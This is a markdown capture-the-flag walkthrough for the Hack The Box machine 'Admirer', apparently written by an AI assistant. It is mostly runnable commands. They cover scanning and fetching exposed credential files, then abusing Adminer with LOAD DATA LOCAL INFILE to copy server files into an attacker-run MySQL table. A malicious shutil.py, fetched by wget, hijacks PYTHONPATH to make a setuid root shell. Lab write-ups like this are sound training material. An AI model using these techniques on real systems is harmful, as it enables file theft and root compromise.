 Here’s a **clean, copy-ready markdown walkthrough for HTB: Admirer**, organized by stage with all relevant commands and brief explanations. You can paste this directly into your notes or GitHub:

---

# 🔍 HTB: Admirer — Walkthrough

**OS:** Linux  
**Difficulty:** Easy  
**Tags:** `ftp`, `adminer`, `mysql`, `pythonpath`, `privesc`, `path hijack`

---

## 📡 Recon

### Full TCP Port Scan

```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.187
```

### Service and Script Scan

```bash
nmap -p 21,22,80 -sC -sV -oA scans/nmap-tcpscripts 10.10.10.187
```

---

## 🌐 Web Enum [HTTP](HTTP.md)

### robots.txt

```bash
curl http://10.10.10.187/robots.txt
```

- Found `/admin-dir` → 403 Forbidden
- Mention of username: **waldo**

### Gobuster on `/`

```bash
gobuster dir -u http://10.10.10.187 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php -t 20 -o scans/gobuster-root-medium-php
```

### Gobuster on `/admin-dir`

```bash
gobuster dir -u http://10.10.10.187/admin-dir \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -x php,txt,zip,html -t 20 -o scans/gobuster-admindir
```

- Found: `contacts.txt`, `credentials.txt`

---

## 📁 Sensitive Files

### contacts.txt

```bash
curl http://10.10.10.187/admin-dir/contacts.txt
```

### credentials.txt

```bash
curl http://10.10.10.187/admin-dir/credentials.txt
```

- FTP creds: `ftpuser : %n?4Wz}R$tTF7`

---

## 📤 FTP Access

```bash
wget --user ftpuser --password '%n?4Wz}R$tTF7' -m ftp://10.10.10.187
```

- Files: `dump.sql`, `html.tar.gz`

### Extract and Analyze Code

```bash
tar -xzf html.tar.gz
```

Look for:
- `utility-scripts/`
- `w4ld0s_s3cr3t_d1r/`

#### Database Credentials Found

From `index.php` / `db_admin.php`:
```php
$servername = "localhost";
$username = "waldo";
$password = "]F7jLHw:*G>UPrTo}~A\"d6b";  # backup creds
$password = "&<h5b~yK3F#{PaPB&dA}{H>";  # live creds
```

---

## 💽 Adminer Exploit for File Read

Visit:
```text
http://10.10.10.187/utility-scripts/adminer.php
```

### Setup Local MySQL for Remote Read

```sql
GRANT ALL PRIVILEGES ON *.* TO root@'10.10.10.187' IDENTIFIED BY '0xdf' WITH GRANT OPTION;
```

```sql
CREATE DATABASE pwn;
USE pwn;
CREATE TABLE exfil (data VARCHAR(256));
```

### In Adminer

Connect to local MySQL using:
- Host: your IP
- User: `root`
- Pass: `0xdf`
- DB: `pwn`

Then execute:
```sql
LOAD DATA LOCAL INFILE '/var/www/html/index.php' 
INTO TABLE exfil
FIELDS TERMINATED BY "\n";
```

View results:
```sql
SELECT * FROM exfil;
```

---

## 🔑 SSH as Waldo

```bash
sshpass -p '&<h5b~yK3F#{PaPB&dA}{H>' ssh waldo@10.10.10.187
```

✅ Grab `user.txt`

---

## 🧑‍🔧 Privilege Escalation: Python Path Hijack

### Check Sudo Rights

```bash
sudo -l
```

- Can run: `/opt/scripts/admin_tasks.sh` with `SETENV`
- Calls: `/opt/scripts/backup.py` → uses `shutil`

### Exploit Plan

1. Create malicious `shutil.py` in writable dir.
2. Set `PYTHONPATH` to load it.
3. Hijack `make_archive()` to run as root.

### Payload: `shutil.py`

```python
#!/usr/bin/python3
import os

def make_archive(a, b, c):
    os.system("cp /bin/bash /var/tmp/rootbash; chmod +s /var/tmp/rootbash")
```

### Upload & Trigger

```bash
cd /var/tmp
wget http://<your-ip>/shutil.py
sudo PYTHONPATH=/var/tmp /opt/scripts/admin_tasks.sh 6
```

### Spawn Root Shell

```bash
/var/tmp/rootbash -p
```

✅ Grab `root.txt`